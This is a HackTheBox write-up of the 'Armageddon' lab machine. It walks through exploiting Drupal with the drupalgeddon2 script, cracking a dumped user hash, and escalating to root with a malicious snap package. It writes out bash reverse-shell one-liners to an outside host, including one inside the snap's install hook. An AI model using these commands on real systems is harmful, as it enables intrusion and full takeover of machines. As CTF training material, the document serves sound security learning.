# Armageddon HackTheBox Writeup
### Level: `Easy` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We access the web resource, we find a website designed in Drupal (as we had previously seen in nmap).

![](3.png)

We list the deployed version of Drupal, an attacker would manage to list public exploits to abuse vulnerabilities in this version.

![](4.png)

## Exploitation
Here is a news from ["HackPlayers"](https://www.hackplayers.com/2018/04/llega-drupalgeddon2-rce-inyectando-en-arrays.html) where they talk about the vulnerability and the affected versions.

#####  Exploit: [drupalgeddon2](https://raw.githubusercontent.com/lorddemon/drupalgeddon2/master/drupalgeddon2.py)

### PoC

![](5.png)

### Reverse shell code
``` bash
python drupalgeddon2.py -h http://10.10.10.233 -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```
![](6.png)

We review the "*settings.php*" file and list the database credentials. This is highly recommended, as there is a possibility of password reuse.

![](7.png)

So, we list the users and try the password, but it doesn't work.

![](8.png)

We dump the DDBB data and find the hash of the Drupal user "*brucetherealadmin*".

![](10.png)

### Cracking hash
We crack the hash with **john** and **rockyou** dictionary and get the credentials in plain text.

![](11.png)

We access by **SSH** and read the flag of "*user.txt*".

![](12.png)


## Privilege Escalation
We run the command "sudo -l", we see that we can install snaps as the root user.

We search for information on Google, we see that we can create a malicious snap package and run it as the user with elevated privileges.

### PoC
![](13.png)

Great, we could read the "*root.txt*" file directly, but we would not be squeezing the most out of the machine.

So, we'll use the following lines to *create a malicious snap package* to give us a reverse shell on our kali.

```bash
COMMAND='bash -i >& /dev/tcp/10.10.14.15/555 0>&1'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/bash\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n m3n0s -s dir -t snap -a all meta
```

We set up a *python server* on our kali and transfer the file with **curl**. Now we run **snap** with **sudo**, wait to receive our reverse shell as root and read the root flag.

![](14.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)